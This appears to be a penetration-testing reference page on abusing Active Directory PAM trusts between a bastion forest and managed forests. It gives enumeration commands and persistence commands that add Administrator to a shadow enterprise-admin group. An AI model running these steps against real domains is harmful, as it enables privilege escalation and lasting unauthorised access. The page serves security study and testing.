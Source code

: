 # Trust - Privileged Access Management

> PAM (Privileged Access Management) introduces bastion forest for management, Shadow Security Principals (groups mapped to high priv groups of managed forests). These allow management of other forests without making changes to groups or ACLs and without interactive logon.

Requirements:

* Windows Server 2016 or earlier

If we compromise the bastion we get `Domain Admins` privileges on the other domain

* Default configuration for PAM Trust

    ```ps1
    # execute on our forest
    netdom trust lab.local /domain:bastion.local /ForestTransitive:Yes 
    netdom trust lab.local /domain:bastion.local /EnableSIDHistory:Yes 
    netdom trust lab.local /domain:bastion.local /EnablePIMTrust:Yes 
    netdom trust lab.local /domain:bastion.local /Quarantine:No
    # execute on our bastion
    netdom trust bastion.local /domain:lab.local /ForestTransitive:Yes
    ```

* Enumerate PAM trusts

    ```ps1
    # Detect if current forest is PAM trust
    Import ADModule
    Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}

    # Enumerate shadow security principals 
    Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl

    # Enumerate if current forest is managed by a bastion forest
    # Trust_Attribute_PIM_Trust + Trust_Attribute_Treat_As_External
    Get-ADTrust -Filter {(ForestTransitive -eq $True)} 
    ```

* Compromise
    * Using the previously found Shadow Security Principal (WinRM account, RDP access, SQL, ...)
    * Using SID History
* Persistence
    * Windows/Linux:

    ```ps1
    bloodyAD --host 10.1.0.4 -u john.doe -p 'Password123!' -d bloody add groupMember 'CN=forest-ShadowEnterpriseAdmin,CN=Shadow Principal Configuration,CN=Services,CN=Configuration,DC=domain,DC=local' Administrator
    ```

    * Windows only:

    ```ps1
    # Add a compromised user to the group 
    Set-ADObject -Identity "CN=forest-ShadowEnterpriseAdmin,CN=Shadow Principal Configuration,CN=Services,CN=Configuration,DC=domain,DC=local" -Add @{'member'="CN=Administrator,CN=Users,DC=domain,DC=local"}
    ```

## References

* [How NOT to use the PAM trust - Leveraging Shadow Principals for Cross Forest Attacks - Thursday, April 18, 2019 - Nikhil SamratAshok Mittal](http://www.labofapenetrationtester.com/2019/04/abusing-PAM.html)
